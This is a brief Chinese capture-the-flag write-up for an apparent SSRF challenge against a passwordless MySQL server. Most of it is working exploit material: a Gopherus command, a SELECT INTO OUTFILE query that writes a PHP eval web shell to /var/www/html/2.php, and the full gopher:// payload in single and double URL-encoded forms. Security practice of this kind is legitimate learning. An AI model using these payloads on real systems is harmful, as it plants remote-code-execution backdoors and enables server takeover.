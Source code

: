 本题是打无密码的 mysql

https://github.com/tarunkant/Gopherus

```
python gopherus.py --exploit mysql
root
select '<?php eval($_POST[pass]); ?>' INTO OUTFILE '/var/www/html/2.php';
```

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4a%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%70%61%73%73%5d%29%3b%20%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%32%2e%70%68%70%27%3b%01%00%00%00%01
```

_ 后面内容再进行一次 url 编码

```
gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%254a%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2527%253c%253f%2570%2568%2570%2520%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2570%2561%2573%2573%255d%2529%253b%2520%253f%253e%2527%2520%2549%254e%2554%254f%2520%254f%2555%2554%2546%2549%254c%2545%2520%2527%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%2532%252e%2570%2568%2570%2527%253b%2501%2500%2500%2500%2501
```
